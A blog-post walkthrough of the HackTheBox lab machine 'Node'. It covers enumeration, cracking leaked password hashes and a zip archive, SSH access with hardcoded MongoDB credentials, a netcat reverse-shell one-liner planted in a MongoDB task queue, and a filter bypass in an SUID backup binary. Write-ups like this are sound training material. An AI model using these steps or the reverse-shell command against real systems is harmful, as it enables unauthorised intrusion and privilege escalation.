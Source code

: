 ```yaml
---
layout: post
title: Hackthebox Node Walkthrough
categories: HackTheBox
---
```


![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-04-07/node-badge.png)

# Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
This is a walkthrough of a box "Node".<br>

# Solution
## 1. Initial Enumeration
### TCP Port Scanning:
{% highlight shell %}
root@kali:~# nmap -p- 10.10.10.58 -sV -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-05 21:28 EEST
Nmap scan report for 10.10.10.58
Host is up (0.040s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-datanode Apache Hadoop
| hadoop-datanode-info:
|_  Logs: /login
| hadoop-tasktracker-info:
|_  Logs: /login
|_http-title: MyPlace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.96 seconds
{% endhighlight %}


## 2. Getting User

We can find a NodeJS website on port 3000.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-04-07/2020-04-05-21-35-11.png)

Using Burp Suite, we can find an interesting HTTP request to "/api/users/latest".
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-04-07/2020-04-05-21-40-44.png)

Then, access to the API.<br>
We can see some passwords for user "tom", "mark" and "rastating".
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.58:3000/api/users/latest | jq
[
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
{% endhighlight %}

Next, try "/api/users".<br>
We can find an admin user "myP14ceAdm1nAcc0uNT".
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.58:3000/api/users/ | jq
[
  {
    "_id": "59a7365b98aa325cc03ee51c",
    "username": "myP14ceAdm1nAcc0uNT",
    "password": "dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
    "is_admin": true
  },
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
{% endhighlight %}

We can crack the password using <a href="https://crackstation.net/">Crackstation.net</a>.<br>
The cracked password is "manchester".
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-04-07/2020-04-05-21-57-05.png)

We can download a file "myplace.backup" base64 encoded.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-04-07/2020-04-05-22-00-44.png)

Try to decode with base64 command.
{% highlight shell %}
root@kali:~# cat myplace.backup | base64 --decode > myplace
root@kali:~# file myplace
myplace: Zip archive data, at least v1.0 to extract
{% endhighlight %}

Since the zip file is password protected, try to brute-force using "fcrackzip".<br>
The password is "magicword".
{% highlight shell %}
root@kali:~# unzip myplace
Archive:  myplace
[myplace] var/www/myplace/package-lock.json password:

root@kali:~# fcrackzip -D -p /usr/share/wordlists/rockyou.txt myplace
possible pw found: magicword ()
{% endhighlight %}

Then, unzip the archive.
It looks like a source code of a NodeJS web application.
{% highlight shell %}
root@kali:~# unzip myplace
Archive:  myplace
[myplace] var/www/myplace/package-lock.json password:
  inflating: var/www/myplace/package-lock.json
  inflating: var/www/myplace/node_modules/serve-static/README.md
  inflating: var/www/myplace/node_modules/serve-static/index.js

---
{% endhighlight %}

Take a look at the source code.<br>
In "/var/www/myplace/app.js", we can find a mongodb credential for user "mark".
{% highlight shell %}
root@kali:~/var/www/myplace# cat app.js | grep mongo
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
    console.log('[!] Failed to connect to mongodb');
{% endhighlight %}

We can use the credential for SSH connection.
{% highlight shell %}
mark:5AYRft73VtFpc84k
{% endhighlight %}
{% highlight shell %}
root@kali:~# ssh mark@10.10.10.58
mark@10.10.10.58's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.




              .-. 
        .-'``(|||) 
     ,`\ \    `-`.                 88                         88 
    /   \ '``-.   `                88                         88 
  .-.  ,       `___:      88   88  88,888,  88   88  ,88888, 88888  88   88 
 (:::) :        ___       88   88  88   88  88   88  88   88  88    88   88 
  `-`  `       ,   :      88   88  88   88  88   88  88   88  88    88   88 
    \   / ,..-`   ,       88   88  88   88  88   88  88   88  88    88   88 
     `./ /    .-.`        '88888'  '88888'  '88888'  88   88  '8888 '88888' 
        `-..-(   ) 
              `-` 




The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Sep 27 02:33:14 2017 from 10.10.14.3
mark@node:~$ id
uid=1001(mark) gid=1001(mark) groups=1001(mark)
{% endhighlight %}

However, we are still not capable of getting user.txt.<br>
We have other 2 users.
{% highlight shell %}
mark@node:/home$ ls -l
total 12
drwxr-xr-x 2 root root 4096 Aug 31  2017 frank
drwxr-xr-x 3 root root 4096 Sep  3  2017 mark
drwxr-xr-x 6 root root 4096 Sep  3  2017 tom
{% endhighlight %}

If take a look at the processes, we can see 2 processes by another user "tom".
{% highlight shell %}
mark@node:~$ ps aux | grep tom
tom       1211  0.0  5.8 1074616 44232 ?       Ssl  19:31   0:03 /usr/bin/node /var/scheduler/app.js
tom       1231  0.0  6.6 1024156 50068 ?       Ssl  19:31   0:04 /usr/bin/node /var/www/myplace/app.js
mark      1610  0.0  0.1  14228  1020 pts/0    S+   23:05   0:00 grep --color=auto tom
{% endhighlight %}

Using the following command, we can access the command line interface of MongoDB.<br>
Also it is possible to insert reverse shell command.
{% highlight shell %}
mark@node:~$ mongo -u mark -p 5AYRft73VtFpc84k localhost/scheduler
MongoDB shell version: 3.2.16
connecting to: localhost/scheduler
> db.tasks.insertOne( { cmd: "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.6 4444 >/tmp/f" } );
{
        "acknowledged" : true,
        "insertedId" : ObjectId("5e8b80f878ddbff46dfcb0d7")
}
> exit
bye
{% endhighlight %}

Launch a netcat listener.
{% highlight shell %}
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...

{% endhighlight %}

After a few minutes, we can get a reverse shell as user "tom".
{% highlight shell %}
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.58] 38860
bash: cannot set terminal process group (1230): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@node:/$ id
id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
{% endhighlight %}

user.txt is in the directory "/home/tom".
{% highlight shell %}
tom@node:/$ cd /home/tom
cd /home/tom
tom@node:~$ ls
ls
user.txt
tom@node:~$ cat user.txt
cat user.txt
e1156acc3574e04b06908ecf76be91b1
{% endhighlight %}


## 3. Getting Root

With the following command, we can find a binary file "/usr/local/bin/backup"
{% highlight shell %}
tom@node:/tmp$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/local/bin/backup
/usr/bin/chfn
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newuidmap
/bin/ping
/bin/umount
/bin/fusermount
/bin/ping6
/bin/ntfs-3g
/bin/su
/bin/mount
{% endhighlight %}

Also, we can find a way to use this executable in the previous script "/var/www/myplace/app.js".<br>
The "backup_key" is also in this code.
{% highlight shell %}
200   app.get('/api/admin/backup', function (req, res) {
201     if (req.session.user && req.session.user.is_admin) {
202       var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
203       var backup = '';
{% endhighlight %}

This time, we can bypass the filter of the binary with the following way.
{% highlight shell %}
tom@node:/tmp$ /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "/roo\t/roo\t.txt" | base64 -d > /tmp/flag.zip
<0afc3d98a8d0230167104d474 "/roo\t/roo\t.txt" | base64 -d > /tmp/flag.zip    

tom@node:/tmp$ unzip -P magicword flag.zip
unzip -P magicword flag.zip
Archive:  flag.zip
 extracting: root/root.txt
{% endhighlight %}

Now we extracted the root.txt
{% highlight shell %}
tom@node:/tmp$ cat root/root.txt
cat root/root.txt
1722e99ca5f353b362556a62bd5e6be0
{% endhighlight %}
